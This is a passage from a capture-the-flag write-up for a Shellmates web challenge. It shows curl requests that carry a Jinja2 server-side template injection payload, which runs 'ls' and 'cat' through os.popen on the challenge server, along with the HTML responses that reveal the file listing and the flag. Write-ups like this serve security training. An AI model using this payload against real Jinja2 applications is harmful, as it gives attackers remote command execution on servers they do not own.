 ```html
...
        <br>
        <p id="nom" style="     @import url('https://fonts.googleapis.com/css2?family=Montserrat:wght@200;300&family=Roboto+Mono:wght@300&display=swap');
                                color:green;
                                                        font-size: 45px;
                                                        font-weight: bold;
                                                        font-family: 'Roboto Mono', monospace;">
                                                        Welcome Mentee : uid=65534(nobody) gid=65534(nobody)

        </p>
</body>

</html>   
```

we can list directory of where the `app.py` is located :

```
curl 'http://render.web-server.challs.ctf.shellmates.club/' -X POST --data "name={{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}"
```

```html
...
        <br>
        <p id="nom" style="     @import url('https://fonts.googleapis.com/css2?family=Montserrat:wght@200;300&family=Roboto+Mono:wght@300&display=swap');
                                color:green;
                                                        font-size: 45px;
                                                        font-weight: bold;
                                                        font-family: 'Roboto Mono', monospace;">
                                                        Welcome Mentee : app.py
requirements.txt
static
templates
this_IS_TH3_FLL4AAAG

        </p>
</body>

</html>  
```

And just cat the flag file :

```
curl 'http://render.web-server.challs.ctf.shellmates.club/' -X POST --data "name={{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat this_IS_TH3_FLL4AAAG').read() }}"
```

```html
...
        <br>
        <p id="nom" style="     @import url('https://fonts.googleapis.com/css2?family=Montserrat:wght@200;300&family=Roboto+Mono:wght@300&display=swap');
                                color:green;
                                                        font-size: 45px;
                                                        font-weight: bold;
                                                        font-family: 'Roboto Mono', monospace;">
                                                        Welcome Mentee : shellmates{SSTI_X_J1NJA_893274}

        </p>
</body>

```